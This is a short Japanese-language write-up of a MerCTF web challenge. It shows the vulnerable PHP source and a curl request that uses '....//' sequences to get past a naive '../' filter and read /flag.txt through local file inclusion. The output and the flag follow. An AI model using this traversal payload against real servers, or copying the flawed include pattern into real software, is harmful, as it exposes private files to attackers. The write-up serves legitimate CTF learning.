

# EZ PeehPee:MerCTF:330pts
Let's start with an easy old PHP challenge to warm up!  
**URL:** [http://peehpee.merctf.com:1337/](http://peehpee.merctf.com:1337/)  

# Solution
URLが与えられる。  
アクセスするとPHPのソースコードが表示される。  
  
以下の通りであった。  
```php
<?php
// flag.txt is in the root directory
highlight_file(__FILE__);

$file = str_replace('../', '', $_GET['file']);

if (isset($file)){
    include("./$file");
}
else{
    highlight_file(__FILE__);
}

print($file)
?>
```
典型的なパストラバーサル問題なようだ。  
`/flag.txt`を読めばよいとコメントにある。  
`../`が置き換えられるので、`....//`などとしてやればよい。  
```bash
$ curl 'http://peehpee.merctf.com:1337/?file=....//....//....//flag.txt'
<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br /></span><span style="color: #FF8000">//&nbsp;flag.txt&nbsp;is&nbsp;in&nbsp;the&nbsp;root&nbsp;directory<br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br /><br /></span><span style="color: #0000BB">$file&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">str_replace</span><span style="color: #007700">(</span><span style="color: #DD0000">'../'</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">''</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">'file'</span><span style="color: #007700">]);<br /><br />if&nbsp;(isset(</span><span style="color: #0000BB">$file</span><span style="color: #007700">)){<br />&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #DD0000">"./</span><span style="color: #0000BB">$file</span><span style="color: #DD0000">"</span><span style="color: #007700">);<br />}<br />else{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />}<br /><br />print(</span><span style="color: #0000BB">$file</span><span style="color: #007700">)<br /></span><span style="color: #0000BB">?&gt;<br /></span>
</span>
</code>Merctf{E4sy_LfI_B4cK_T0_OlD_AtTaCks}
../../../flag.txt
```
flagが得られた。  

## Merctf{E4sy_LfI_B4cK_T0_OlD_AtTaCks}